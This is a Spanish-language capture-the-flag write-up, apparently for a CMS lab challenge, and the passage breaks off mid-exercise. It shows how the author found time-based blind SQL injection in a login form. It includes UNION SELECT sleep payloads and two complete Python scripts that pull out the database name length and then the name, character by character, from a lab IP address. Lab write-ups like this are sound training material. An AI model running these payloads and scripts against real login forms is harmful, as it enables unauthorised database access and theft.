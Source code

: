 Tenemos lo que parece ser el mismo sitio de la versión uno:

![image](https://user-images.githubusercontent.com/43856126/114126795-a7347680-98e8-11eb-9836-a8504543979a.png)

Con el cambio de que ahora si queremos editar o crear una nueva página nos redirige a un login:

![image](https://user-images.githubusercontent.com/43856126/114126865-be736400-98e8-11eb-8cae-749fa0d3e71e.png)

# Flag 0
Aquí lo primero que se me ocurre al ver un login es probar algo de SQL injection, así que con una prueba básica:

![image](https://user-images.githubusercontent.com/43856126/114126962-faa6c480-98e8-11eb-8530-2467ca3f768b.png)

Y esto nos dice que la contraseña no es la correcta:

![image](https://user-images.githubusercontent.com/43856126/114126995-07c3b380-98e9-11eb-8b3e-bb3d1f6bc3f0.png)

En este caso podríamos tratar de hacer un ataque de diccionario para ver si podemos encontrar la constraseña, pero a modo de prueba tratamos de romper la consulta simplemente agregando una comilla simple:

![image](https://user-images.githubusercontent.com/43856126/114127356-cd0e4b00-98e9-11eb-81d5-8810c660fe4a.png)

Y esto nos da un error:

![image](https://user-images.githubusercontent.com/43856126/114127406-e0211b00-98e9-11eb-98e2-c7fafbd74617.png)

Traté con algunos payloads para error based, pero lo que parece ser aquí es que tendríamos que usar un poco de blind SQL, así, que probando con un sleep se puede ver que se puede disparar el sleep
 
![image](https://user-images.githubusercontent.com/43856126/114129537-427c1a80-98ee-11eb-9a6b-652fd75e7c88.png)

En esta parte se podría hacer uso de sqlmap para hacerlo mucho más rápido, pero a manera de práctica me decidí hacerlo implementando scripts desarrollados en python 3

Dicho esto, el payload base para hacer todas mis pruebas será con un time delay, así que el primero payload quedaría cómo:

`' union SELECT IF(LENGTH(database())=1,sleep(5),'a')-- -`

Esto es para determinar primero la longitud del nombre de la base de datos.

Mi script final qudaría de la siguiente manera, ya incluye el computo del tiempo para determinar si se tarda cierto tiempo...

```
import requests
from time import time

#payload = "' UNION SELECT IF(LENGTH(database())=1,sleep(5),'a')-- -"
for i in range (30):

    payload = "' UNION SELECT IF(LENGTH(database())=" + str(i+1) + ",sleep(5),'a')-- -"
    print ("Payload >> ", payload)
    dat = {"username": payload, "password": "test"}

    url = "http://34.94.3.143/702d18a2c3/login"
    
    time_start = time()
    r = requests.post(url, data = dat)
    time_end = time()
    
    timeT = time_end - time_start
    if timeT > 4:
        print("[+] Longitud entontrada >> ", i + 1)
        break
```


Al ejecutar este script podemos obtener la longitud del nombre de la base de datos que se esta usando:

![image](https://user-images.githubusercontent.com/43856126/114230641-eacec500-9968-11eb-96c7-c342f3260667.png)

Sabemos entonces que el nombre tiene una longitud de 6 caracteres, ahora usando el siguiente payload como base:

`' UNION SELECT IF(SUBSTRING(database(),1,1)='a',sleep(5),'a')-- -`

Con esto podemos construir nuestro script para encontrar el nombre de la base de datos, tenemos que ir cambiando la letra con la que se va compando, así, que ahora el script final quedaría de la siguiente manera:

```
import requests
from time import time
import string

l1 = list(string.ascii_lowercase)
lista = []

for i in range(len(l1)):
    lista.append(str(l1[i]))

for i in range (10):
    lista.append(str(i))   

dump = []

for i in range(6):
    
    for j in lista:

        payload = "' UNION SELECT IF(SUBSTRING(database(),"+str(i+1)+",1)='"+j+"',sleep(5),'a')-- -"
        print("Payload >>", payload)

        dat = {"username":payload,"password":"test"}

        url = "http://34.94.3.143/702d18a2c3/login"
        
        time_start = time()
        r = requests.post(url, data = dat)
        time_end = time()

        timeT = time_end - time_start

        if timeT > 4:
            print("[+] Caracter encontrado >> ", j)
            dump.append(j)
            break

for i in range (len(dump)):
    print(dump[i], end="")
```

Al ejecutar el script tenemos el nombre de la base de datos!

![image](https://user-images.githubusercontent.com/43856126/114232558-91b46080-996b-11eb-85a8-d9d52bc99e35.png)

Ahora sabemos que el nombre de la base de datos es level2, así que ahora toca encontrar las tablas que contiene esta base de datos.

